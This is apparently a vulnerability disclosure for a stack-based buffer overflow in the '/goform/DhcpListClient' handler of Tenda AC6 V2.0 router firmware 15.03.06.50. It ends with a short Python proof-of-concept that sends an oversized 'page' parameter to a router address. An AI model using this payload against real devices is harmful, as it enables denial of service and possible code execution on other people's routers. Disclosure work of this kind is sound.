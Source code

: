 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/DhcpListClient` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/DhcpListClient` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `page`.


![alt text](image-1.png)

## poc
![alt text](image.png)

![alt text](image-2.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'page': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x100 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/DhcpListClient", payload)
```

